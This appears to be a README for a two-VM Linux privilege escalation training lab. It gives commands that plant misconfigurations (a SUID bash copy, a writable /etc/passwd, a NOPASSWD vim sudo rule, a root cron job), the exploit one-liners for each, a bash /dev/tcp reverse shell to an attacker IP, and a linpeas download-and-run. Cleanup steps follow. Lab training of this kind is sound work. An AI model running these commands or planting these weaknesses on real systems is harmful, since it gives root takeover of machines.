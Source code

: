 🛡️ Linux Privilege Escalation Sandbox (Two-VM Lab)

## Overview
This project sets up a realistic **Linux privilege escalation lab** using two virtual machines:
- **Attacker VM:** Parrot OS Security Edition
- **Victim VM:** Linux Mint 21.x (XFCE recommended)

The attacker gains initial low-privileged SSH access to the victim and then systematically enumerates and exploits local misconfigurations to escalate to root access.

---

## Lab Architecture

| Component     | Details                                     |
|---------------|--------------------------------------------|
| Attacker VM   | Parrot OS Security Edition                 |
| Victim VM     | Linux Mint 21.x XFCE                      |
| Network       | Host-Only or Internal NAT (same subnet)    |
| Resources     | Each VM: 2–4 vCPUs, 8 GB RAM, 64 GB HDD |


---

## Setup Instructions

### Victim VM (Linux Mint)
✅ Create low-privileged user:
```bash
sudo adduser intern
sudo passwd intern
```

✅ Install and start SSH:
```bash
sudo apt install openssh-server
sudo systemctl enable ssh
sudo systemctl start ssh
```

✅ Plant misconfigurations:
```bash
# SUID Bash
sudo cp /bin/bash /usr/local/bin/suidbash
sudo chmod u+s /usr/local/bin/suidbash

# Writable /etc/passwd
sudo chmod o+w /etc/passwd

# Misconfigured sudo rule
echo "intern ALL=(ALL) NOPASSWD: /usr/bin/vim" | sudo tee -a /etc/sudoers

# Cron job for root shell
echo "* * * * * root bash -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'" | sudo tee -a /etc/crontab
```

### Attacker VM (Parrot OS)
✅ Ensure SSH, Nmap, Netcat, and LinPEAS are available.

✅ Verify connectivity:
```bash
ping <victim-ip>
ssh intern@<victim-ip>
```

---

## Attack Workflow

### Step 1: Recon
```bash
nmap -sV <victim-ip>
```

### Step 2: Initial Access
```bash
ssh intern@<victim-ip>
```

### Step 3: Local Enumeration (Manual)
```bash
id; whoami; sudo -l; find / -perm -4000 -type f 2>/dev/null; getcap -r / 2>/dev/null; crontab -l; cat /etc/crontab
```

### Step 4: Local Enumeration (Automated)
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Step 5: Exploitation
| Misconfig          | Exploit Command                                                      |
|--------------------|----------------------------------------------------------------------|
| SUID Bash          | `/usr/local/bin/suidbash -p`                                         |
| Writable passwd    | `echo 'intern::0:0:root:/root:/bin/bash' >> /etc/passwd; su - intern` |
| Misconfigured sudo | `sudo vim -c ':!bash'`                                              |
| Cron Abuse         | Wait, then `/tmp/rootbash -p`                                       |

### Optional: Reverse Shell
```bash
# On attacker VM
nc -lvnp 4444

# On victim VM
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
```

---

## Hardening (Post-Lab Cleanup)
- Remove SUID bit:
  ```bash
  sudo chmod u-s /usr/local/bin/suidbash
  ```
- Reset /etc/passwd permissions:
  ```bash
  sudo chmod o-w /etc/passwd
  ```
- Remove sudoers rule:
  ```bash
  sudo visudo  # remove 'intern' entry
  ```
- Clean cron jobs:
  ```bash
  sudo nano /etc/crontab
  sudo rm /tmp/rootbash
  ```

---

## Project Summary
> Built a two-VM Linux privilege escalation lab simulating an attacker using Parrot OS to compromise a Linux Mint victim system. Successfully gained low-privileged access, enumerated misconfigurations, and executed privilege escalation attacks to obtain root. Documented mitigation strategies and cleanup procedures.

**Skills:** Remote Access · Linux Post-Exploitation · Privilege Escalation · SUID/Capabilities Exploitation · Enumeration Tools · Red Team Simulation · Vulnerability Simulation


---

## Deliverables
✅ Screenshots of enumeration and exploits  
✅ Command logs or transcripts  
✅ This README.md  
✅ Optional: Summary report outlining key lessons and mitigations
